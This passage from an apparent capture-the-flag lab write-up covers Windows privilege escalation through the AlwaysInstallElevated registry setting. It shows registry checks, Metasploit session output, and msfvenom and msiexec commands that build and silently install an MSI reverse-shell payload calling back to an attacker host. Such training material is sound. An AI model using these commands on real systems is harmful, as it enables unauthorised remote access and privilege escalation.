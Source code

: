 We now have a meterpreter:

~~~
[*] Started reverse TCP handler on 10.9.**.**:4444 
[*] Sending stage (176195 bytes) to 10.10.242.238
[*] Meterpreter session 1 opened (10.9.**.**:4444 -> 10.10.242.238:49265) at 2020-05-19 09:59:41 +0200

meterpreter > getuid 
Server username: TCM-PC\user
~~~

# [Task 4] Registry Escalation - AlwaysInstallElevated

## #4.0 - Instructions

**Detection**

Windows VM

1. Open command prompt and type: `reg query HKLM\Software\Policies\Microsoft\Windows\Installer`
2. From the output, notice that “AlwaysInstallElevated” value is 1.
3. In command prompt type: `reg query HKCU\Software\Policies\Microsoft\Windows\Installer`
4. From the output, notice that “AlwaysInstallElevated” value is 1.

**Exploitation**

Kali VM

1. Open command prompt and type: `msfconsole`
2. In Metasploit (msf > prompt) type: `use multi/handler`
3. In Metasploit (msf > prompt) type: `set payload windows/meterpreter/reverse_tcp`
4. In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]`
5. In Metasploit (msf > prompt) type: `run`
6. Open an additional command prompt and type: `msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi`
7. Copy the generated file, `setup.msi`, to the Windows VM.

Windows VM

1. Place ‘setup.msi’ in ‘C:\Temp’.
2. Open command prompt and type: msiexec /quiet /qn /i C:\Temp\setup.msi

Enjoy your shell! :)

## #4.1 - Click 'Completed' once you have successfully elevated the machine

**Detection**

Let's check that `AlwaysInstallElevated` is equal to 1, both in HKLM and HKCU:

~~~
C:\Users\user>reg query HKLM\Software\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


C:\Users\user>reg query HKCU\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
~~~
